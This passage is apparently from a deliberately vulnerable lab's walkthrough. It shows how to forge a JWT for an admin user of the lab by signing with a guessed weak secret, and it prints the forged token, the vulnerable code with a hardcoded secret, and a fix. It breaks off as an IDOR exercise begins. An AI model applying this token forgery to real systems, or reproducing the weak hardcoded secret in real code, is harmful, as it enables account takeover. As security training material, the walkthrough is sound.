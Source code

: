```bash
# base64 decoded jwt token
{"alg":"HS256","typ":"JWT"}{"username":"vulnlabAdmin","iat":1646548200}�S�;�w������Θ�����FǪ��:�
```

5.  Application is using the `HS256` algorithm to sign the payload and in the payload it has a username that it is for identifying the user.

6. Use the secret to create a valid JWT for user **`vulnlabAdmin`** using **`jsonwebtoken`** package. 

```js
// createJwtToken.js
var jwt = require('jsonwebtoken')

const payload = {"username": "vulnlabAdmin"}
console.log(jwt.sign(payload, "secret"))
```

```bash
$ node jwt.js
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InZ1bG5sYWJBZG1pbiIsImlhdCI6MTY0NjU0OTIyMn0.jntBGk0Dw7hiX81yo3-9afj0djZ3f-o5P0UapJbVCW
```

5. Now that we have a valid JWT for user **`vulnlabAdmin`** we can use it in **`authToken`** cookie value to access the API token of **`vulnlabAdmin`** user and complete this exercise.


### Vulnerable Code

```js
# /controllers/vuln_controllers.js
function generateAccessToken(username) {
    const payload = { "username": username };
    return jwt.sign(payload, process.env.JWT_SECRET);
}

# /.env
JWT_SECRET=secret
```

### Fix

Use strong secret to generate JWT

## 4. IDOR 

Application is loading Notes saved in a user account based on userid supplied in the URL path your goal is to access notes saved in **`vulnlabAdmin`** user account by performing IDOR.

**Request method & endpoint**

```
Request method: GET
endpoint: /notes/user/:userid
```
### Exploit
